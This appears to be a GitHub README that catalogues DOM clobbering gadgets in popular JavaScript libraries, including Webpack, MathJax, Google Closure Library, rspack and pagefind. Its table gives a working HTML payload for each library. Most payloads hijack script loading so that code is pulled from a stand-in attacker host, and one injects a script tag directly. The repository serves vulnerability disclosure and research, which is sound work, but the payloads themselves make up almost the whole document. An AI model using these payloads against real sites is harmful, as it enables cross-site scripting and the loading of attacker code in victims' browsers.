 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A |N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K |N/A | ```<img name=currentScript label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A |5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk | N/A |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K |v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 10.1K |2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K |3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K |v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | N/A |
| [polyfills/webcomponentsjs](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K |2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K |v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K |2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K |5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | CVE-2024-43788 |
